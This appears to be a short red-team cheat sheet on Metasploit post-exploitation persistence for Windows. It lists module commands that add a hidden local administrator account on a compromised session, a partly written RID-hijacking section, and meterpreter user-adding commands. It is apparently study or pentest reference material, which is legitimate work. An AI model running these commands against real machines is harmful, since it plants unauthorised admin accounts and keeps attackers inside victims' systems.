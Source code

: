 # Metasploit

## 01 - Create Local User

```
msf post(windows/manage/add_user) > options

Module options (post/windows/manage/add_user):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   ADDTODOMAIN  true             yes       Add to Domain if true, otherwise add locally
   ADDTOGROUP   false            yes       Add group if it does not exist
   GROUP                         no        Add user into group, creating it if necessary
   PASSWORD                      no        Password of the user
   SESSION                       yes       The session to run this module on.
   TOKEN                         no        Username or PID of the token which will be used (if blank, Domain Admin tokens will be enumerated)
   USERNAME                      yes       The username of the user to add (not-qualified, e.g. BOB)

msf post(windows/manage/add_user) > set username sysadmin

msf post(windows/manage/add_user) > set password s3cUrePassw0rd!

msf post(windows/manage/add_user) > set addtodomain false

msf post(windows/manage/add_user) > set addtogroup true

msf post(windows/manage/add_user) > set group administrators

msf post(windows/manage/add_user) > set session <number>

msf post(windows/manage/add_user) > run
```

## 02 - RID Hijack

TODO: Fill this info

```
msf > use post/windows/manage/rid_hijack

msf post(windows/manage/rid_hijack) > options

msf post(windows/manage/rid_hijack) > set username <username>
```

## 03 - Add Tokens

```
meterpreter > add_user

meterpreter > add_localgroup_user
```

---
## References

- [Red Team Notes: RID Hijacking](https://www.ired.team/offensive-security/persistence/rid-hijacking)

- https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/rid_hijack.md